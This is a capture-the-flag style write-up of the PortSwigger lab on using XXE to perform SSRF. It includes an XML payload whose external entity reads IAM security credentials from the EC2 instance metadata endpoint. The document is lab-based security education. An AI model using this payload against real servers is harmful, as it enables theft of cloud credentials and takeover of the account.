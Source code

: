 ```yaml
---                                                                                           
title: PortSwigger Labs - XXE to SSRF to exfiltrate EC2 instance metadata
date: 2021-07-13 20:02:00 +0200                                                              
categories: [PortSwigger-Labs]                                                                
tags: [ssrf, xxe, ec2, iam]     
dirImg: /assets/img/PortSwigger/XXE-to-SSRF                     
toc: false                                                                                    
---
```


## Description

Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

>![]({{ page.dirImg }}/2021-07-13-19-22-52.png){: .shadow}

## Writeup

We can modify the XML sent to the server in the `check stock` feature and see what happens

>![]({{ page.dirImg }}/2021-07-13-19-36-34.png){: .shadow}

If the `productId` does not contain a valid value, then an error message will be displayed.

We know that it is vulnerable to XXE. We can access the EC2 metadata endpoint and look for the IAM secret. With some googling and trial and error we find the correct path to the IAM secret credentials, namely `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`


So our XML will look like

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

And we get the secrets

>![]({{ page.dirImg }}/2021-07-13-19-56-26.png){: .shadow}

We successfully exploited an XXE vulnerability to perform a SSRF attack and retrieve the IAM secret credentials from the EC2 metadata instance.
